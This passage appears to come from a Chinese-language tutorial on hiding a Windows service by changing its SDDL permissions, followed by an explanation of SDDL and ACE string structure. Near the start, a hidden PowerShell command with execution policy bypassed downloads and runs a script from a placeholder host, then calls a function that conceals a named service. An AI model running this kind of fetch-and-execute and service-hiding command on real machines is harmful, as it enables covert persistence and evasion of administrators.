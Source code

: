     Set-Acl $S $acl  
    }  
    

远程加载powershell脚本：

    
    
    powershell.exe -exec bypass -nop -w hidden -c "IEX((new-object net.webclient).downloadstring('http://xxx:8000/s.ps1'));Server-Sddl-Change -Name '.NET CLR Networking 3.5.0.0'"  
    

从下图可见已将值从该服务项中隐藏：

![](https://gitee.com/fuli009/images/raw/master/public/20210913135707.png)

# SDDL字符串详解

安全描述符字符串格式（SDDL) 是用于存储或传输安全描述符中的信息的文本格式，更改SDDL即修改对象的访问权限。

如图为一个安全对象的SDDL：

![](https://gitee.com/fuli009/images/raw/master/public/20210913135709.png)

如图可见其基本组成为：

    
    
    O:owner_sid   
    G:group_sid   
    D:dacl_flags(string_ace1)(string_ace2)... (string_acen)   
    S:sacl_flags(string_ace1)(string_ace2)... (string_acen)  
    

  *  **O: 对象所有者的SID**
  *  **G：对象主组的SID**
  *  **dacl_flags** ：应用于DACL的安全描述符控制标志
  *  **string_ace1** :访问控制列表ACE

对每个组成的详细描述可以参考：https://docs.microsoft.com/en-
us/windows/win32/secauthz/security-descriptor-string-format

访问控制列表ACE决定了哪个用户对它具有哪些权限，是DACL的具体规则，我们在服务中主要关注修改的就是DACL。

对于一个具体的ACE，其具有如下结构：

    
    
    (   
    ace_type;   
    ace_flags;   
    rights;   
    object_guid;   
    inherit_object_guid;   
    account_sid;   
    (resource_attribute)  
    )  
    

对于每一个部分的详细解释可以参考：https://docs.microsoft.com/en-us/windows/win32/secauthz/ace-
strings
